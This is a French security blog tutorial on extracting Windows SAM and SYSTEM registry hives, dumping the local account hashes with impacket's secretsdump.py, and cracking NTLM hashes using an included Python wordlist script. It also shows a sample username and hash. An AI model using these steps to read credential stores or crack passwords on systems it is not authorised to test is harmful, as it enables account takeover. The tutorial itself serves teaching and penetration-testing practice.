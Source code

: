 ```yaml
---
title: "[SAM] Dumping des informations d'identification Microsoft"
description: sam.png
tags: ["Dans cet article je vous présente le fonctionnement d'un fichier Security Account Manage (SAM), et de vous montrer comment dump un fichier SAM grâce au fichier SYSTEM sous une machine Windows."]
---
```


![Flower](../sam.png)

Introduction
----
Dans ce cours à but éducatif nous allons voir comment dumper et casser des mots de passe Microsoft grâce au système de fichier `Security Account Manager` (SAM) ou en français `Gestionnaire de compte de sécurité`.

SAM
----
Alors commençons par la base des bases c'est quoi `SAM` concrètement ? <br />

La SAM (Security Account Manager ou gestionnaire des comptes de sécurité) est la base de données des comptes locaux sur Windows Server 2003, Windows XP, Windows 2000. C'est l'un des composants de la base de registre. Elle contient les mots de passe locaux.

La SAM est stockée physiquement dans le fichier `%SystemRoot%\system32\Config\SAM`. C'est un fichier de ruche inclus dans `HKEY_LOCAL_MACHINE`, lui-même inclus dans la base de registre. Si vous regardez bien, nous voyons très bien que les clés `SAM` et `SYSTEM` sont dans le registre de Windows.

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894108-screenshot-5.png)

Nous allons enregistrer une copie des sous-clés, entrées ou données spécifiées du registre dans un format binaire via la commande `reg`. La commande `reg` est une commande Microsoft et le but du programme est de gérer le registre de Windows (Très utile pour les personnes qui n'aiment pas le GUI).

Une très bonne documentation de `REG` : [REG](https://windows.developpez.com/cours/ligne-commande/?page=page_17)

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558894619-screenshot-2.png)

Les deux sous-clés `SAM` et `SYSTEM` ont été enregistrer dans la racine de Windows `C:\sam/system`. Nous arrivons dans la phase pour dumper les fichiers dans mon cas je vais faire ça sous Windows mais sous Linux ça peut également très bien fonctionner.

IMPACKET
----
Avant de dump le fichier, on va s'assurer que `impacket` est installer dans notre machine, voici le lien pour l'installer [impacket](https://github.com/SecureAuthCorp/impacket)

Impacket est un ensemble de classes Python permettant de travailler avec des protocoles réseau. Impacket se concentre sur la fourniture d'un accès programmatique de bas niveau aux paquets et à certains protocoles (par exemple, SMB1-3 et MSRPC), la mise en œuvre du protocole elle-même.

Pour l'installation de `impacket` : <br />

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558905335-screenshot-1.png)

Avant d'utiliser le programme nous allons mettre le dossier `examples` dans la variable d'environnement de l'ordinateur. Pour éviter toujours d'aller vers le dossier, ça peut être assez long et assez chiant.

![Flower](https://image.noelshack.com/fichiers/2019/22/1/1558952753-screenshot-1.png)

Concrètement pour utiliser le programme `secretsdump.py` il vous suffit d'utiliser seulement 3 options en particulier, `-sam`, `-system` et enfin pour l'option finale `LOCAL`.

> -sam    : Spécifier le fichier `SAM`. <br />
> -system : Spécifier le fichier `SYSTEM`. <br />
> LOCAL   : Si vous voulez analyser les fichiers locaux.<br />

![Flower](https://image.noelshack.com/fichiers/2019/21/7/1558905838-screenshot-2.png)

Le dumping à fonctionner avec succès donc maintenant nous allons passer au casse du HASH. Il faut avant tout identifier le `HASH` cela ressemble grandement à du `NT Lan Manager` (NTLM). 

CRACK
----
Alors concrètement comme aujourd'hui je suis de bonne humeur, j'ai crée un script en Python rien que pour vous. C'est un petit script qui fais très bien le boulot pour bruteforce le `HASH`.

{% highlight python %}
#coding:utf-8

import sys
import hashlib
import binascii

def recover_hash_nt():
	with open(sys.argv[1], "r") as ptr_open:
		ptr_open = ptr_open.readlines()

	username_list = []
	hash_checking = []

	for line_strip in ptr_open:
		'''
			Boucle pour lire le fichier et de
			trouver les valeurs précises dans la fonction __recover_hash_nt__().
		'''
		line_strip = line_strip.strip("\n")
		line_strip = line_strip.split(":")

		username   = line_strip[0]
		hash_check = line_strip[3]

		username_list.append(username)
		hash_checking.append(hash_check)

	with open(sys.argv[2], "r") as ptr_wordlist:
		ptr_wordlist = ptr_wordlist.readlines()

	for ptr_hash in hash_checking:
		ptr_hash = ptr_hash.strip("\n")
		'''
			read the hash in the loop
			__recover_hash_nt()__.
		'''
		for ptr_username in username_list:
			ptr_username = ptr_username.strip("\n")
			'''
				read the username in the loop
				__recover_hash_nt()__.
			'''
			for ptr_list in ptr_wordlist:
				ptr_list = ptr_list.strip("\n")
				'''
					read the wordlist in the loop.
					__recover_hash_nt()__.
				'''
				ptr_ntlm = hashlib.new('md4', ptr_list.encode('utf-16le')).digest()
				if(binascii.hexlify(ptr_ntlm) == ptr_hash):
					print("[+] CRACKED !! : [%s:%s:%s]" %(ptr_username, ptr_hash, ptr_list))
					sys.exit(0)

if __name__ == "__main__":
	recover_hash_nt()
  
{% endhighlight %}

L'utilisation du programme :

	C:\Users\Administrateur\Desktop>python ntlm.py hash.log rockyou.txt

Nous avons juste 2 arguments à mettre.. Dans le fichier `hash.log` il y a les hashs de stockés et dans le fichier `rockyou.txt` c'est simplement une wordlist pris sur le web.

N'oubliez pas de mettre les arguments sinon le programme ne fonctionne pas. Si vous souhaitez casser un HASH, vous devez créé un fichier texte, et que vous mettez la ligne avec l'utilisateur.

Par exemple mon fichier hash.log :

	Seyptoo:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

![Flower](https://image.noelshack.com/fichiers/2019/22/1/1558959032-screenshot-2.png)
